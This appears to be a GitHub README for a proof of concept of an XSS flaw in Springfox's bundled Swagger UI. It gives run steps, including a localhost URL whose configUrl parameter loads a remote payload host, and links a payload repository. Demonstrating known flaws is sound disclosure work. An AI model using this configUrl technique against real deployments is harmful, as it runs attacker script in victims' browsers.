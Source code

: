 # springfox XSS PoC

## Credit and Thanks
Example application was copied from: [https://github.com/evrentan/my-swagger-ui-example](https://github.com/evrentan/my-swagger-ui-example)

All credit for code goes to: [evrentan](https://github.com/evrentan) for providing the excellent example code!

## About
Springfox is a commonly used library for JVM-based languages to easily provide JSON documentation.
Springfox includes a vulnerable version of the Swagger UI with known XSS vulnerabilities.

Because of this, all versions of Springfox appear to be vulnerable to a Swagger XSS issue.

The affected module appears to be: [io.springfox.springfox-swagger-ui](https://mvnrepository.com/artifact/io.springfox/springfox-swagger-ui)

The vulnerable Swagger UI bundled version is shown at: [https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24](https://github.com/springfox/springfox/blob/master/springfox-swagger-ui/build.gradle#L24)

## Running the PoC

Ensure you have JDK 11 available to properly build this.

1. Run: `mvn spring-boot:run`
2. Navigate to: http://localhost:8080/swagger-ui/index.html?configUrl=https://xss.smarpo.com/test.json

XSS Payloads are hosted at: [seanmarpo/swagger-xss-payloads](https://github.com/seanmarpo/swagger-xss-payloads)


## Copyright

GNU General Public License v3.0
Permissions of this strong copyleft license are conditioned on making available complete source code of licensed works and modifications, which include larger works using a licensed work, under the same license. Copyright and license notices must be preserved. Contributors provide an express grant of patent rights.
